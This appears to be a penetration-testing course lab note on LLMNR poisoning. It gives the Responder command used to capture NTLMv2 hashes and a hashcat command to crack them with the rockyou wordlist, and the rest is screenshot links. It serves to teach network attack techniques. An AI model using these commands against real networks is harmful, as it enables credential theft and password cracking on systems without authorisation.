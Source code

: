 ## LLMNR Poisoning - Capturing NTLMv2 Hashes
```bash
ifconfig 
sudo responder -I eth0
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-1.png"> 




</br>

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-2.png"> 






## Trigger an LLMNR Event

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-3.png"> 




## Dumping NTLMv2 Hashes
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-4.png"> 



## Save Hash to a file
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-5.png"> 

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-6.png"> 

## Use Hashcat to crack the hash 
```bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-7.png"> 

## Use John to crack the hash 
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-8.png"> 
